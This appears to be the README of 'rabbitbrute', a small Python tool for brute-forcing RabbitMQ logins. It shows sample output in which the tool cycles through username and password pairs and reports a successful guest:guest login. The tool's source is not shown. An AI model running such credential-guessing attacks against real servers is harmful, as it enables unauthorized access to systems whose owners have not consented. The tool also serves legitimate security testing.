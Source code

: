 rabbitbrute
===========

Simple brute-force module for RabbitMQ servers. Currently takes user and password list from /tmp directory (see source).

Example:


laptop:rabbitbrute myles$ python rabbitbrute.py

[-] Connection refused: test : password

[-] Connection refused: test : secret

[-] Connection refused: test : guest

[-] Connection refused: guest : password

[-] Connection refused: guest : secret

[+] Success. User: guest --- Password: guest

[-] Connection refused: admin : password

[-] Connection refused: admin : secret

[-] Connection refused: admin : guest

[-] Connection refused: myles : password

[-] Connection refused: myles : secret

[-] Connection refused: myles : guest

[-] Connection refused: user : password

[-] Connection refused: user : secret

[-] Connection refused: user : guest

[-] Connection refused: system : password

[-] Connection refused: system : secret

[-] Connection refused: system : guest

[+] Brute force finished

laptop:rabbitbrute myles$ 
